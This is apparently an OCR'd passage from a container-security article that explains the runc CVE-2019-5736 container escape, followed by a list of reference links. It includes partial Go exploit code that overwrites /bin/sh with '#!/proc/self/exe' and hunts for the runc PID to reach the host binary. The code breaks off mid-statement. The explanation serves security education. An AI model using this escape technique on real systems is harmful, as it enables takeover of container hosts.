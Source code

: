 [57]: https://containerd.io
[58]: https://docker.com
[59]: https://katacontainers.io

An example for a high severity runc vulnerability is [CVE-2019-5736][60], which
affects runc versions prior to v1.0.0-rc7. The root cause of the vulnerability
was a file-descriptor mishandling in conjunction to `/proc/self/exe`. This issue
can be used to gain access to the host system when running a malicious container
image or trapping a user running an `attach` by doing an `exec` command to a
container. In terms of malicious container images, we can defer to the
previously described security enhancements to prevent such a vulnerability.

[60]: https://nvd.nist.gov/vuln/detail/CVE-2019-5736

It gets a bit trickier if a possible attacker already has access to the running
container, maybe by utilizing another unknown vulnerability inside our own
application. Then the attacker could overwrite `/bin/sh` in the container with
`#!/proc/self/exe`.

```go
// Overwrite /bin/sh with the /proc/self/exe interpreter path
fd, err := os.Create("/bin/sh")
if err != nil {
	// …
}
fmt.Fprintln(fd, "#!/proc/self/exe")
err = fd.Close()
if err != nil {
	// …
}
log.Println("overwritten /bin/sh")
```

The target `/proc/self/exe` is a symbolic link created by the Kernel for every
process which points to the binary that was executed for that process. This
means if `/bin/sh` is executed inside the container, then the target of
`/proc/self/exe` will be executed instead, which will point to the `runc` binary
on the host.

Now the attacker can proceed to write to the target (`/proc/self/exe`) and try
to overwrite the runc binary on the host. This will not work in general because
the Kernel will not permit runc to be overwritten during the execution of
itself. To overcome this, the attacker can instead open a file descriptor to
`/proc/pid/exe` to retrieve the file descriptor of the container’s init process.
To find this PID, we could simply loop through all the PIDs running in the
container and wait this way for the `exec` to happen:

```go
pid := 0
for pid == 0 {
	pids, err := ioutil.ReadDir("/proc")
	if err != nil {
		// …
	}
	for _, f := range pids {
		fd, _ := ioutil.ReadFile("/proc/" + f.Name() + "/cmdline")
		if strings.Contains(string(fd), "runc") {
			log.Println("found PID:", f.Name())
			pid, err = strconv.Atoi(f.Name())
			if err != nil {
				// …
			}
		}
	}
}

handleFd := -1
for handleFd == -1 {
	handle, err := os.OpenFile(
		fmt.Sprintf("/proc/%d/exe", pid),
		os.O_RDONLY, 0o777,
```

[10]: https://kubernetes.io
[11]: https://en.wikipedia.org/wiki/Common_Vulnerabilities_and_Exposures
[12]: https://en.wikipedia.org/wiki/DevOps
[13]: https://www.devsecops.org/blog/2015/2/15/what-is-devsecops
[14]: https://aws.amazon.com/eks
[15]: https://cloud.google.com/kubernetes-engine
[16]: https://azure.microsoft.com/en-in/services/kubernetes-service
[17]: https://suse.com/products/caas-platform
[18]: https://openshift.com
[20]: https://github.com/saschagrunert/demystifying-containers#table-of-contents
[21]: http://man7.org/linux/man-pages/man7/namespaces.7.html
[22]: https://nvd.nist.gov/vuln/detail/CVE-2018-18955
[23]: https://lwn.net/Articles/486306
[24]: http://man7.org/linux/man-pages/man7/capabilities.7.html
[30]: http://man7.org/linux/man-pages/man7/capabilities.7.html
[31]: http://man7.org/linux/man-pages/man7/xattr.7.html
[32]: https://podman.io
[33]: https://opencontainers.org
[34]: https://github.com/opencontainers/runc
[35]: https://sourceware.org/systemtap
[36]: https://en.wikipedia.org/wiki/DTrace
[37]: https://kernel.org/doc/Documentation/kprobes.txt
[38]: https://github.com/iovisor/bcc/blob/master/tools/capable.py
[39]: https://kubernetes.io/docs/reference/command-line-tools-reference/kubelet
[40]: https://github.com/saschagrunert/demystifying-containers/blob/master/part3-container-images/post.md
[41]: https://debian.org
[42]: https://ubuntu.com
[43]: https://prometheus.io
[44]: https://en.wikipedia.org/wiki/Kibana
[45]: https://grafana.com
[46]: https://grafana.com/oss/loki
[47]: https://kubernetes.io/docs/concepts/storage/persistent-volumes
[48]: https://alpinelinux.org
[49]: https://quay.io
[50]: https://securitytxt.org
[51]: https://gnupg.org
[52]: https://github.com/containers/skopeo
[53]: https://cri-o.io
[54]: https://openpgp.org
[55]: https://en.wikipedia.org/wiki/JSON_Web_Encryption
[56]: https://en.wikipedia.org/wiki/Cryptographic_Message_Syntax
[70]: https://en.wikipedia.org/wiki/Seccomp
[71]: https://chromium.org
[72]: https://openssh.com
[73]: https://security.appspot.com/vsftpd.html
[74]: https://en.wikipedia.org/wiki/Firefox_OS
[90]: https://en.wikipedia.org/wiki/Security-Enhanced_Linux
[91]: https://en.wikipedia.org/wiki/AppArmor
[92]: https://kubernetes.io/docs/concepts/configuration/secret
[80]: https://istio.io
[81]: https://linkerd.io